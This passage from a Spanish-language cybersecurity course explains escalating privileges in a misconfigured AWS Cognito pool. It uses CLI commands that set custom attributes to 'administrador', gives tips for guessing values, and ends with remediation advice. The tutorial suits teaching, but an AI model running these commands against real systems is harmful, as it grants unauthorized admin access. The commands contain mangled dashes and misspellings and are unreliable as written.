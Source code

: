 ```bash
aws –no-verify-ssl cognito-idp get-user –region us-east-1 –acces-token “valor del parámetro AccesToken”
```

Finalmente, para concretar la técnica intentaremos editar el valor de los atributos **custom:profile** y **custom:registerType** de cliente a administrador, ejecutando las siguientes líneas de comando:

```bash
aws –no-verify-ssl cognito-idp update-user-attributes –region us-east-1 –acces-token “valor del parámetro AccesToken” –user-atributes Name=custom:profile, Value=administrador1.   aws –no-verify-ssl cognito-idp update-user-attributes –region us-east-1 –acces-token “valor del parámetro AccesToken” –user-atributes Name=custom:registerType, Value=administrador
```

```bash
aws –no-verify-ssl cognito-idp update-user-attributes –region us-east-1 –acces-token “valor del parámetro AccesToken” –user-atributes Name=custom:registerType, Value=administrador
```

Ejecutando los pasos descritos se puede verificar que efectivamente utilizando está técnica es posible escalar privilegios de manera vertical, es decir, en nuestra imagen de ejemplo (Figura 1) en el contexto en donde se está evaluando un sistema de citas médicas el usuario que inicialmente podía leer citas médicas ahora también tiene la capacidad de editar, eliminar y crear usuarios del sistema.

![NoSQL6](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL6.png?raw=true)

### Tips:

1. El valor del usuario de altos privilegios puede variar, es decir, podría ser: admin, administrator, administrador o tener otro nombre, para ello se recomienda revisar los archivos js en donde quizás se pueda encontrar mayor información.
2. En algunos casos el parámetro “—region” varía, para ello se tendría que probar con otros valores:

[https://docs.aws.amazon.com/es_es/AWSEC2/latest/UserGuide/using-regions-availability-zones.html](https://docs.aws.amazon.com/es_es/AWSEC2/latest/UserGuide/using-regions-availability-zones.html)

### Recomendación

1. Realizar una validación de permisos y privilegios en donde AWS Cognito no permita la edición de atributos a usuarios con bajos privilegios.
2. La remediación de lo descrito esta ligado estrictamente a una inadecuada configuración en AWS cognito en donde los permisos de escritura y lectura no fueron segmentados y establecidos de manera correcta.
3. Se recomienda leer la documentación emitida por el fabricante para restringir y limitar la edición de atributos:

[https://docs.aws.amazon.com/cognito/latest/developerguide/user-pool-settings-attributes.html](https://docs.aws.amazon.com/cognito/latest/developerguide/user-pool-settings-attributes.html)

![NoSQL7](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL7.png?raw=true)

Los servidores son mayormente Linux, pero también hay server con Windows veamos alguna técnicas de escala de privilegios.
